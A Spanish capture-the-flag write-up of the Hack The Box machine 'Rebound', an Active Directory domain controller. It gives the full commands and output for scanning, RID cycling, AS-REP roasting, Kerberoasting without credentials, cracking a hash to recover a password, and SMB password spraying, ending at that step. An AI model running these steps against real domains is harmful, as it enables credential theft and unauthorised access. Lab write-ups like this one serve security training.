







+++
author = "Andrés Del Cerro"
title = "Hack The Box: Rebound Writeup | Insane"
date = "2024-08-21"
description = ""
tags = [
    "HackTheBox",
    "Rebound",
    "Writeup",
    "Cybersecurity",
    "Penetration Testing",
    "CTF",
    "Network Security",
    "Reverse Shell",
    "Privilege Escalation",
    "RCE",
    "Exploit",
    "Windows",
    "Active Directory",
    "RID Cycling",
    "ASREPRoast",
    "Kerberoasting",
    "Password Spraying",
    "Bloodhound Enumeration",
    "Abusing AddSelf",
    "Abusing GenericAll",
    "Shadow Credentials",
    "Abusing WinRM",
    "Cross Session Relay",
    "Abusing ReadGMSAPassword",
    "Constrained Delegation",
    "Resource-Based Constrained Delegation",
    "Impersonating",
    "DCSync",
    "Pass The Hass"
]

+++

# Hack The Box: Rebound Writeup

Welcome to my detailed writeup of the insane difficulty machine **"Rebound"** on Hack The Box. This writeup will cover the steps taken to achieve initial foothold and escalation to root.

# TCP Enumeration

```shell
rustscan -a 10.129.229.114 --ulimit 5000 -g
10.129.229.114 -> [53,88,135,139,389,445,464,593,636,3268,3269,5985,9389,47001,49664,49665,49667,49666,49673,49694,49695,49696,49711,49727,49748,49811]
```

```shell
nmap -p53,88,135,139,389,445,464,593,636,3268,3269,5985,9389,47001,49664,49665,49667,49666,49673,49694,49695,49696,49711,49727,49748,49811 10.129.229.114 -sCV -oN allPorts
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-21 21:11 CEST
Nmap scan report for 10.129.229.114
Host is up (0.038s latency).

PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2024-08-22 00:12:02Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: rebound.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2024-08-22T00:13:07+00:00; +5h00m02s from scanner time.
| ssl-cert: Subject: 
| Subject Alternative Name: DNS:dc01.rebound.htb
| Not valid before: 2023-08-25T22:48:10
|_Not valid after:  2024-08-24T22:48:10
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: rebound.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2024-08-22T00:13:06+00:00; +5h00m01s from scanner time.
| ssl-cert: Subject: 
| Subject Alternative Name: DNS:dc01.rebound.htb
| Not valid before: 2023-08-25T22:48:10
|_Not valid after:  2024-08-24T22:48:10
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: rebound.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2024-08-22T00:13:07+00:00; +5h00m02s from scanner time.
| ssl-cert: Subject: 
| Subject Alternative Name: DNS:dc01.rebound.htb
| Not valid before: 2023-08-25T22:48:10
|_Not valid after:  2024-08-24T22:48:10
3269/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: rebound.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2024-08-22T00:13:06+00:00; +5h00m01s from scanner time.
| ssl-cert: Subject: 
| Subject Alternative Name: DNS:dc01.rebound.htb
| Not valid before: 2023-08-25T22:48:10
|_Not valid after:  2024-08-24T22:48:10
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
9389/tcp  open  mc-nmf        .NET Message Framing
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49673/tcp open  msrpc         Microsoft Windows RPC
49694/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49695/tcp open  msrpc         Microsoft Windows RPC
49696/tcp open  msrpc         Microsoft Windows RPC
49711/tcp open  msrpc         Microsoft Windows RPC
49727/tcp open  msrpc         Microsoft Windows RPC
49748/tcp open  msrpc         Microsoft Windows RPC
49811/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 5h00m01s, deviation: 0s, median: 5h00m01s
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2024-08-22T00:12:59
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 71.72 seconds
```
# UDP Enumeration

```shell
sudo nmap --top-ports 1500 10.129.229.114 --min-rate 5000 -sU -n -Pn -oN allPorts.UDP
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-21 21:13 CEST
Nmap scan report for 10.129.229.114
Host is up (0.041s latency).
Not shown: 1496 open|filtered udp ports (no-response)
PORT      STATE  SERVICE
53/udp    open   domain
88/udp    open   kerberos-sec
123/udp   open   ntp
49157/udp closed unknown

Nmap done: 1 IP address (1 host up) scanned in 0.87 seconds
```

Por el escaneo inicial detectamos el dominio `rebound.htb` y el nombre del DC `dc01.rebound.htb`. Vamos a agregar esta información al `/etc/hosts`

# DNS Enumeration
Siempre que el servicio DNS está expuesto me gusta realizar fuerza bruta para intentar encontrar algún subdominio o en este caso, equipo adicional.

```shell
dig A rebound.htb @10.129.229.114

; <<>> DiG 9.18.24-1-Debian <<>> A rebound.htb @10.129.229.114
;; global options: +cmd
;; Got answer:
;; ->>HEADER<<- opcode: QUERY, status: NOERROR, id: 32902
;; flags: qr aa rd ra; QUERY: 1, ANSWER: 2, AUTHORITY: 0, ADDITIONAL: 1

;; OPT PSEUDOSECTION:
; EDNS: version: 0, flags:; udp: 4000
;; QUESTION SECTION:
;rebound.htb.			IN	A

;; ANSWER SECTION:
rebound.htb.		600	IN	A	10.129.229.114
rebound.htb.		600	IN	A	10.10.11.231

;; Query time: 36 msec
;; SERVER: 10.129.229.114#53(10.129.229.114) (UDP)
;; WHEN: Wed Aug 21 21:19:55 CEST 2024
;; MSG SIZE  rcvd: 72

┌─[192.168.1.52]─[pointedsec@parrot]─[~/Desktop/rebound/scan]
└──╼ [★]$ dig MX rebound.htb @10.129.229.114

; <<>> DiG 9.18.24-1-Debian <<>> MX rebound.htb @10.129.229.114
;; global options: +cmd
;; Got answer:
;; ->>HEADER<<- opcode: QUERY, status: NOERROR, id: 16140
;; flags: qr aa rd ra; QUERY: 1, ANSWER: 0, AUTHORITY: 1, ADDITIONAL: 1

;; OPT PSEUDOSECTION:
; EDNS: version: 0, flags:; udp: 4000
;; QUESTION SECTION:
;rebound.htb.			IN	MX

;; AUTHORITY SECTION:
rebound.htb.		3600	IN	SOA	dc01.rebound.htb. hostmaster.rebound.htb. 145 900 600 86400 3600

;; Query time: 36 msec
;; SERVER: 10.129.229.114#53(10.129.229.114) (UDP)
;; WHEN: Wed Aug 21 21:19:57 CEST 2024
;; MSG SIZE  rcvd: 92

┌─[192.168.1.52]─[pointedsec@parrot]─[~/Desktop/rebound/scan]
└──╼ [★]$ dig axfr rebound.htb @10.129.229.114

; <<>> DiG 9.18.24-1-Debian <<>> axfr rebound.htb @10.129.229.114
;; global options: +cmd
; Transfer failed.
```

```shell
dnsenum -f /opt/SecLists/Discovery/DNS/subdomains-top1million-110000.txt --dnsserver 10.129.229.114 rebound.htb
dnsenum VERSION:1.2.6

-----   rebound.htb   -----


Host's addresses:
__________________

rebound.htb.                             600      IN    A        10.10.11.231
rebound.htb.                             600      IN    A        10.129.229.114


Name Servers:
______________

dc01.rebound.htb.                        3600     IN    A        10.129.229.114


Mail (MX) Servers:
___________________


Trying Zone Transfers and getting Bind Versions:
_________________________________________________

unresolvable name: dc01.rebound.htb at /usr/bin/dnsenum line 900.

Trying Zone Transfer for rebound.htb on dc01.rebound.htb ... 
AXFR record query failed: no nameservers


Brute forcing with /opt/SecLists/Discovery/DNS/subdomains-top1million-110000.txt:
__________________________________________________________________________________

gc._msdcs.rebound.htb.                   600      IN    A        10.129.229.114
gc._msdcs.rebound.htb.                   600      IN    A        10.10.11.231
domaindnszones.rebound.htb.              600      IN    A        10.129.229.114
```

No encontramos nada ni por fuerza bruta ni con `dig` haciendo solicitudes DNS.

Como no hay ningún servicio web, supongo que primero necesitaré enumerar usuarios mediante SMB, LDAP o RPC.

# RPC Enumeration
```shell
rpcclient $> enumdomusers
result was NT_STATUS_ACCESS_DENIED
```
No podemos enumerar usuarios del dominio haciendo uso de una null session.

# LDAP Enumeration
```shell
ldapsearch -x -H ldap://10.129.229.114 -D '' -w '' -b "DC=REBOUND,DC=HTB"
# extended LDIF
#
# LDAPv3
# base <DC=REBOUND,DC=HTB> with scope subtree
# filter: (objectclass=*)
# requesting: ALL
#

# search result
search: 2
result: 1 Operations error
text: 000004DC: LdapErr: DSID-0C090ACD, comment: In order to perform this opera
 tion a successful bind must be completed on the connection., data 0, v4563

# numResponses: 1
```
Por LDAP Tampoco

# SMB Enumeration
```
# SMB Enumeration
```shell
$ smbmap -H 10.129.229.114 -u 'null' -p ''
[+] Guest session   	IP: 10.129.229.114:445	Name: dc01.rebound.htb                                  
        Disk                                                  	Permissions	Comment
	----                                                  	-----------	-------
	ADMIN$                                            	NO ACCESS	Remote Admin
	C$                                                	NO ACCESS	Default share
	IPC$                                              	READ ONLY	Remote IPC
	NETLOGON                                          	NO ACCESS	Logon server share 
	Shared                                            	READ ONLY	
	SYSVOL                                            	NO ACCESS	Logon server share
```

Vemos un recurso `Shared` al cual tenemos acceso.

No tenemos capacidad de listar los contenidos.
```shell
smbclient \\\\10.129.229.114\\Shared -U '' -N
Try "help" to get a list of possible commands.
smb: \> dir
NT_STATUS_ACCESS_DENIED listing \*
```

# RID Cycling + ASREPRoast
Podemos con `lookupsid.py` hacer un ataque de tipo RID Cycling contra el DC y vemos que descubrimos usuarios, simplemente los exportamos y filtramos por los usuarios para tener una buena lista de ellos

```shell
lookupsid.py guest@10.129.229.114 -no-pass | tee lookupsid.out
Impacket v0.12.0.dev1+20240725.112949.6307900 - Copyright 2023 Fortra

[*] Brute forcing SIDs at 10.129.229.114
[*] StringBinding ncacn_np:10.129.229.114[\pipe\lsarpc]
[*] Domain SID is: S-1-5-21-4078382237-1492182817-2568127209
498: rebound\Enterprise Read-only Domain Controllers (SidTypeGroup)
500: rebound\Administrator (SidTypeUser)
501: rebound\Guest (SidTypeUser)
502: rebound\krbtgt (SidTypeUser)
512: rebound\Domain Admins (SidTypeGroup)
513: rebound\Domain Users (SidTypeGroup)
514: rebound\Domain Guests (SidTypeGroup)
515: rebound\Domain Computers (SidTypeGroup)
516: rebound\Domain Controllers (SidTypeGroup)
517: rebound\Cert Publishers (SidTypeAlias)
518: rebound\Schema Admins (SidTypeGroup)
519: rebound\Enterprise Admins (SidTypeGroup)
520: rebound\Group Policy Creator Owners (SidTypeGroup)
521: rebound\Read-only Domain Controllers (SidTypeGroup)
522: rebound\Cloneable Domain Controllers (SidTypeGroup)
525: rebound\Protected Users (SidTypeGroup)
526: rebound\Key Admins (SidTypeGroup)
527: rebound\Enterprise Key Admins (SidTypeGroup)
553: rebound\RAS and IAS Servers (SidTypeAlias)
571: rebound\Allowed RODC Password Replication Group (SidTypeAlias)
572: rebound\Denied RODC Password Replication Group (SidTypeAlias)
1000: rebound\DC01$ (SidTypeUser)
1101: rebound\DnsAdmins (SidTypeAlias)
1102: rebound\DnsUpdateProxy (SidTypeGroup)
1951: rebound\ppaul (SidTypeUser)
2952: rebound\llune (SidTypeUser)
3382: rebound\fflock (SidTypeUser)
┌─[192.168.1.52]─[pointedsec@parrot]─[~/Desktop/rebound/scan]
└──╼ [★]$ cat lookupsid.out | grep SidTypeUser | grep -v -e '\$' -e '{' -e '}' -e HealthMailbox | awk -F'\' '{print $2}' | awk '{print $1}' | perl -nle 'print if m{^[[:ascii:]]+$}' > users.txt
```

```shell
cat users.txt 
Administrator
Guest
krbtgt
ppaul
llune
fflock
```

Tampoco podemos hacer mucho con estos usuarios, podríamos comprobar con `kerbrute` que son válidos pero suponemos que si, y podemos intentar ver si alguno es ASREPRoasteable, vemos que ninguno lo es.
```shell
impacket-GetNPUsers -no-pass -usersfile users.txt rebound.htb/
Impacket v0.11.0 - Copyright 2023 Fortra

[-] User Administrator doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User Guest doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] User ppaul doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User llune doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User fflock doesn't have UF_DONT_REQUIRE_PREAUTH set
```

En este momento vamos a hacer el RID Cycling con mas RID ya que normalmente se prueban hasta 4000 RID's. Vamos a probar con 30000.


```shell
lookupsid.py guest@10.129.229.114 30000 -no-pass | tee lookupsid.out
Impacket v0.12.0.dev1+20240725.112949.6307900 - Copyright 2023 Fortra
```

```shell
cat lookupsid.out | grep SidTypeUser | grep -v -e '\$' -e '{' -e '}' -e HealthMailbox | awk -F'\' '{print $2}' | awk '{print $1}' | perl -nle 'print if m{^[[:ascii:]]+$}' > users.txt
┌─[192.168.1.52]─[pointedsec@parrot]─[~/Desktop/rebound/scan]
└──╼ [★]$ cat users.txt 
Administrator
Guest
krbtgt
ppaul
llune
fflock
jjones
mmalone
nnoon
ldap_monitor
oorend
winrm_svc
batch_runner
tbrady
```
Y vemos que encontramos mas usuarios que antes.

```shell
impacket-GetNPUsers -no-pass -usersfile users.txt rebound.htb/
Impacket v0.11.0 - Copyright 2023 Fortra

[-] User Administrator doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User Guest doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] Kerberos SessionError: KDC_ERR_CLIENT_REVOKED(Clients credentials have been revoked)
[-] User ppaul doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User llune doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User fflock doesn't have UF_DONT_REQUIRE_PREAUTH set
$krb5asrep$23$jjones@REBOUND.HTB:bd63b10ac83b812170771fadebe1f6cd$6f3487a2f346d54f7240e23126548cfa6dcaf7f8d474a3469e2dc21672aa78dca4ba40d274534b10a88a87cb01d785a4db8747d624204ff95a12726b687c0913ebaf8fc1868c1122982b3b422b81d260a2856a9681a76a2c4231d90743fa7515112063d50469558a6992f4f44f8efaa0c6c6d9f4eb08649bef9f674ca572243c51c857c14cd44f9d3a2cc1baa1c621d4aa2fca98c7335e7e919e8d6d1f52c64d97d37474479f51310795a22ca760ca83080cf5348a45a64845dddfb9b57fc2330c81c05097936f8dfca5861452468f707fa38ad5cdafcb5c4a7eafbb7639750a2b901ce0a6da0aa14d3c
[-] User mmalone doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User nnoon doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User ldap_monitor doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User oorend doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User winrm_svc doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User batch_runner doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User tbrady doesn't have UF_DONT_REQUIRE_PREAUTH set
```
Encontramos que el usuario `jjones` no requiere pre-autenticación con kerberos.

Podemos intentar crackear este hash pero no hay suerte.
```shell
john -w=/usr/share/wordlists/rockyou.txt hash
Using default input encoding: UTF-8
Loaded 1 password hash (krb5asrep, Kerberos 5 AS-REP etype 17/18/23 [MD4 HMAC-MD5 RC4 / PBKDF2 HMAC-SHA1 AES 256/256 AVX2 8x])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
0g 0:00:00:12 DONE (2024-08-21 21:34) 0g/s 1110Kp/s 1110Kc/s 1110KC/s !!12Honey..*7¡Vamos!
Session completed.
```

## Kerberoasting using AS-REQ
Ahora bien, ¿que hacemos?

No tenemos credenciales y solo partimos de que tenemos un usuario que no requiere pre-autenticación.

Teóricamente podemos realizar un ataque de tipo Kerberoasting sin necesidad de tener credenciales de un usuario (yo pensaba que sí)
https://www.thehacker.recipes/a-d/movement/kerberos/kerberoast

En el link adjuntado está muy bien explicado pero en resumen podemos obtener tickets de servicio utilizando AS-REQ en vez de TGS-REQ, esto nos posibilita realizar kerberoasting sin necesidad de tener las credenciales del usuario.

**Aclarar que necesitamos la mínimo la versión 12 de la suite de Impacket**
```shell
GetUserSPNs.py -no-preauth 'jjones' -usersfile users.txt -dc-host 10.129.229.114 rebound.htb/
Impacket v0.12.0.dev1+20240725.112949.6307900 - Copyright 2023 Fortra

[-] Principal: Administrator - Kerberos SessionError: KDC_ERR_S_PRINCIPAL_UNKNOWN(Server not found in Kerberos database)
[-] Principal: Guest - Kerberos SessionError: KDC_ERR_S_PRINCIPAL_UNKNOWN(Server not found in Kerberos database)
$krb5tgs$18$krbtgt$REBOUND.HTB$*krbtgt*$6cf549f9a51bbd99931defe6$5ba4be4820fcce906c75b2a0f68efc4b5de83ad86cf75b2b0cb085abd42512e77f99c49ff0ab4af1d1df0e18ec3475e3617588cd7a7a088a6227d305ddd249e1f7e7009d02584fed6e8fbd606d1e06ba1cf23b5de71178f825e3c5020df42b97987b6097d251a079760721428f340418c1e1b102e82f42e693227bc8a7ed69740e7d3e099da0b127743d19c0a426f8fa779878f406647c54f77312c622ad9a8218828442e653bd93f7de23f374bd732407aa9a5ffdfc4cdebe60a6473891c663dac4395c5951869b0783c0381b857e957e4d0f327f75f2ffb46e93dc6b4ef83a04f05021b273bcb4d69a005b18ac87abb6639e40dbc1baac5b651494bae55b9ec1295d3378b3357ce7bbb5dfa57872e7549651858d437e681535bef9e09452a7e097060c93137bebe86490e26d3d4df07293bd2db98fadc28455d69599dffb0ea8add2261fd1274b9cfc23c8cc87d1da500417932bd070c818695d072f88758c53a4f1b5f2b84f6e41bcfbbed0996d6244b9e4d22ab0461cfcb30f64a5f8abccce7648ded8e590cbb19b680bf5ada6f53e54a3e8edc6abf6696b8409c8e08ece549f5e3fb6d998c834a79f281515cf9e57c9c43ef0fa26c21d7333b0ef0289a90c5e50f981e41b6d61d2f444198e6f97651d494ab589ecbfaa40949807c3faa422101a39746bcaf4034909afd2c0830ad6893d90cad18efdc1bf0d1644ef45c3a0cdb9781cd96d1882a5831aa953f8ee845bb02bd97ef5b182631f8c62ac7c8bbe8355e562aa45b3f0685619aa117063bd63fc19ea7263e474f68f26c06b77883f2ee50b5c791c67cb5143b72bf7c524a7a9910582813267b556e5a08ce350a42b3954b09f8496500a45f12f7a3f2d5b78887faa42e58f9c0d7fc36288eb255850b87fc3ffaba4c24818d0af949d930c7da85949a9a09b863ac5a1b21937b0b54b21d276746ff5735006cdc70883d172d7d8a721fbaade298d5a4420f6f3eb91b6ccaf87961177dd10f9e24db9e5fd5b1cfc17f449cae58ae44da139334237a3d78d51bcf2968fbb3c3d379388e437544d40670cd267f40074f6642ad036c241f0f0014acfd3bf7d03912c454d7bd159e467247b51cfd09c82b99f944253d62b4e16a0f868c75365b71e3985d327274243a6bddab88cd35df3e841296014061045e96b68c5304a765e0d78d97715cfbe6837412ec177d121854a87b7533e428b161ebb556d7377a26c163d94b06b312a21368a220e4110a9451d2192e0a8c48e64ef1d18c089cb207d3beadd2a87baef874e12d3e3604e5e9e8d2dc69042d28a8c788cbec1bddae407130d028db6709992a91911a357cbf67164c70942e9937eaa949a05e6e22748acd33b06e812aba9fa602347a20930af6e271f416c49f5d516f72bfc0dd3d48095edc77205acf14de11fea8d08e236d988ecba6fe33f241304545a20c0fd08fe69a7f69dea0a4a931cfe
[-] Principal: ppaul - Kerberos SessionError: KDC_ERR_S_PRINCIPAL_UNKNOWN(Server not found in Kerberos database)
[-] Principal: llune - Kerberos SessionError: KDC_ERR_S_PRINCIPAL_UNKNOWN(Server not found in Kerberos database)
[-] Principal: fflock - Kerberos SessionError: KDC_ERR_S_PRINCIPAL_UNKNOWN(Server not found in Kerberos database)
[-] Principal: jjones - Kerberos SessionError: KDC_ERR_S_PRINCIPAL_UNKNOWN(Server not found in Kerberos database)
[-] Principal: mmalone - Kerberos SessionError: KDC_ERR_S_PRINCIPAL_UNKNOWN(Server not found in Kerberos database)
[-] Principal: nnoon - Kerberos SessionError: KDC_ERR_S_PRINCIPAL_UNKNOWN(Server not found in Kerberos database)
$krb5tgs$23$*ldap_monitor$REBOUND.HTB$ldap_monitor*$e42cb69ae1b46416ba382d0da310ee84$4aa5a753189fce7d5e7f34fbb9761de49188cbf7a4dfc72636cb82b34bc1664b72f1f596059c97e9a856c7189e40b251e6e138d01585c325c20d314b168bf2d9d338c5428a2106c3eb2ed20ba9b40959dacedba600b4d8c56b3855f0947814f5d10257963f36f12fe28549230002968fb88c8f754be15493a9849a5ff457a0c5ac00b4239e4cfd3e0f16b350b27656c887d05fde97435eb7b68e62fcb1efe22d4cf6b7f2df229227d7d14aa21ea07fc95c2f974a5c29b92aa28b2860eb675b5134222c4aade71bf5a661402a587f95dce39f9d5c1f64882df8dfddc7d0a334376c8d763fe616bf7ca1c472982efdf42bbe7fed20dd0f7a3c57225296350ad34cef7ad6d3790a0be10632fe25073a80d76295544549d26199911fa78d8af33a182057a07ec489274c3b767ca7448256e39ef123167c48a307e6417e4a3fbc67f9a8e7e23a5bd292b230951970527e06650e1c4aad9dbcd913e78c8a67446ebd3f46397c37ae9b8294e724b31c36dba07de9711332671ddc0e0bd0a6bb48d45a2b97a6165ba583257b2b19749d5d094292e46bef154a5c92926845f45077663548b9039a4e0c055f2facf740639b571ab90c0591128701d8d92fe62b115968e7ff7e3dd401148c7f25212b144f6b0bfa554f501de2cdc45fa6c549487839dc91e5eefba551b567d81a68c36237e6ceef10460b4c69ad3ac4bad01af5b4ca7029a3959f9c46e9b7ddf78fcbd7cad73efff392c4c880c42c5b0ec503fd369dd4eef61a7ea6d0f7e67394de3b044ed583ddfb026e68765376a24c3dec67d7bf02c24b8db58088807f373fc6de4c9d91e89f0e851bff1958d29f8e66b9a1220cff0fd84a854c402706869a7bbd729d43c7eccb07c8000135519e24b1a48ea954e799889289f85662e24c0c298d8e993e51e722c906cb7fb3c8168f274403a8fad3573d74bab944da5644fc5acba4876f0688a656c075c47b194779f567338cae045732d725427047ba98e3444e5bf9e447df2d438e988d824bd469393f24a1c46a65a9cf78ea5edfa23077e397287ef527fb339a707d9e695e4f36e3d24fa2acc9a084c50b51c6d76d4c83c18cb3d046ac141a9bad989cae9e23824ca6b702cacfe8fb9cf274b337d30c88081f00f76a20ae6ee5d64556f0a12dbb9693754c33688415d544462fb404e819a7d084e27121e3fb921348068978bb6a5de84c175130f8ecf97aae1a18ca50124ec955ecab695e4df2b8b5487db01115bac7e670eaced563937652c853d38657e8929d17d57e53338a0d1dfa6f11351ee23acae649c42fb034d64de88c7323cdf682a96524d205a6f5c11c0ba6e894078930fcd4c0b79cf4346a
[-] Principal: oorend - Kerberos SessionError: KDC_ERR_S_PRINCIPAL_UNKNOWN(Server not found in Kerberos database)
[-] Principal: winrm_svc - Kerberos SessionError: KDC_ERR_S_PRINCIPAL_UNKNOWN(Server not found in Kerberos database)
[-] Principal: batch_runner - Kerberos SessionError: KDC_ERR_S_PRINCIPAL_UNKNOWN(Server not found in Kerberos database)
[-] Principal: tbrady - Kerberos SessionError: KDC_ERR_S_PRINCIPAL_UNKNOWN(Server not found in Kerberos database)
```

Conseguimos los hashes del usuario `krbtgt` que no creo que sea crackeable, si no no sería una máquina Insane y del usuario `ldap_monitor`

## Password Spraying
Podemos crackear el hash de `ldap_monitor`
```shell
john -w=/usr/share/wordlists/rockyou.txt hash 
Using default input encoding: UTF-8
Loaded 1 password hash (krb5tgs, Kerberos 5 TGS etype 23 [MD4 HMAC-MD5 RC4])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
1GR8t@$$4u       (?)     
1g 0:00:00:07 DONE (2024-08-21 21:48) 0.1392g/s 1816Kp/s 1816Kc/s 1816KC/s 1Gobucs!..1DENA
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

Y siempre que tengamos una credencial y una lista de usuarios, lo óptimo es realizar un password spraying probando esa credencial para todos los usuarios por si se reutiliza.
```shell
nxc smb 10.129.229.114 -u users.txt -p '1GR8t@$$4u' --continue-on-success 
SMB         10.129.229.114  445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:rebound.htb) (signing:True) (SMBv1:False)
SMB         10.129.229.114  445    DC01             [-] rebound.htb\Administrator:1GR8t@$$4u STATUS_LOGON_FAILURE
SMB         10.129.229.114  445    DC01             [-] rebound.htb\Guest:1GR8t@$$4u STATUS_LOGON_FAILURE
SMB         10.129.229.114  445    DC01             [-] rebound.htb\krbtgt:1GR8t@$$4u STATUS_LOGON_FAILURE
SMB         10.129.229.114  445    DC01             [-] rebound.htb\ppaul:1GR8t@$$4u STATUS_LOGON_FAILURE
SMB         10.129.229.114  445    DC01             [-] rebound.htb\llune:1GR8t@$$4u STATUS_LOGON_FAILURE
SMB         10.129.229.114  445    DC01             [-] rebound.htb\fflock:1GR8t@$$4u STATUS_LOGON_FAILURE
SMB         10.129.229.114  445    DC01             [-] rebound.htb\jjones:1GR8t@$$4u STATUS_LOGON_FAILURE
SMB         10.129.229.114  445    DC01             [-] rebound.htb\mmalone:1GR8t@$$4u STATUS_LOGON_FAILURE
SMB         10.129.229.114  445    DC01             [-] rebound.htb\nnoon:1GR8t@$$4u STATUS_LOGON_FAILURE
SMB         10.129.229.114  445    DC01             [+] rebound.htb\ldap_monitor:1GR8t@$$4u
SMB         10.129.229.114  445    DC01             [+] rebound.htb\oorend:1GR8t@$$4u 
